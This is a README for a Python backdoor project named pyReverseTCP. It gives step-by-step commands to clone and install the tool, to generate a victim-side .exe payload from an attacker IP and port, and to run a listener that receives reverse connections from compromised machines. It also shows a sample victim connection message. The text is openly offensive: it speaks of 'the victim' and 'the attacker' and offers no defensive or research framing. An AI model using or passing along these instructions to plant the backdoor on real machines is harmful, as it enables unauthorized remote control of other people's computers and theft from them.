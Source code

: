 # pyReverseTCP
### A backdoor program made entirely in python
## Installation
> Cloning this repo
```
$ git clone https://github.com/Astrol99/pyReverseTCP.git
```
> Install required dependencies
Use pip with provided requirements.txt with all dependencies listed
```
$ cd pyReverseTCP
$ pip install -r requirements.txt
```
## Getting Started
### Making payload
In order to make a connection between you and the victim, the victim must run the payload. But to do that, you must first make a .exe program. A script called payload_creator.py has made this step autonomous, but needs two parameters, the attacker's IP and PORT
> Usage
```
python payload_creator.py <ATTACKER IP> <ATTACKER PORT>
```
> Example
```
python payload_creator.py 192.168.1.10 1234
```
### Using listener
The multi_lister.py script is an interface that uses python sockets to interact with the payload. To use it, first make sure your victim has launched the payload.
Then go into your terminal and run the program with the following parameters (same as payload creator):
> Usage
```
python multi_listener.py <ATTACKER IP> <ATTACKER PORT>
```
Then the program will listen for connections on that ip and port and if the victim has launched the payload, a message such as
```
[CONN] Davids-PC <-> 192.168.0.10:7598 | Connected
```
will display. 
